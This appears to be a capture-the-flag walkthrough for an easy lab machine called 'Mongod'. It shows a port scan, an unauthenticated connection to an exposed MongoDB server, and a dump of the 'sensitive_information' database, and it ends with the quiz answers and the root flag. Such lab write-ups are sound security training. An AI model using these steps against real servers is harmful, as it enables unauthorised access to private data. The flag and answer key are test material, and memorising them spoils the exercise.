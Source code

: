 # Mongod - Very Easy

```shell
rustscan -a 10.129.194.168 --range 0-65535 --ulimit 5000 -- -sV

mongo --host 10.129.194.168 --port 27017
#connect remotely

show dbs;

#we can select the database
use sensitive_information;

show collections;

#to print all contents of collection
db.flag.find().pretty();
```

```markdown
Open ports & services:

  * 22 - ssh - OpenSSH 8.2p1 (Ubuntu)
  * 27017 - mongodb - MongoDB 3.6.8

Researching about MongoDB and going through its documentation will help us in enumerating port 27017.

Using documentation, we can connect to remote MongoDB database.

By checking the correct database, we can print the 'flag' collection's contents to get flag.
```

1. How many TCP ports are open on the machine? - 2

2. Which service is running on port 27017 of the remote host? - MongoDB 3.6.8

3. What type of database is MongoDB? - NoSQL

4. What is the command name for the Mongo shell that is installed with the mongodb-clients package? - mongo

5. What is the command used for listing all the databases present on the MongoDB server? - show dbs

6. What is the command used for listing out the collections in a database? - show collections

7. What is the command used for dumping the content of all the documents within the collection named flag in a format that is easy to read?

8. Submit root flag - 1b6e6fb359e7c40241b6d431427ba6ea

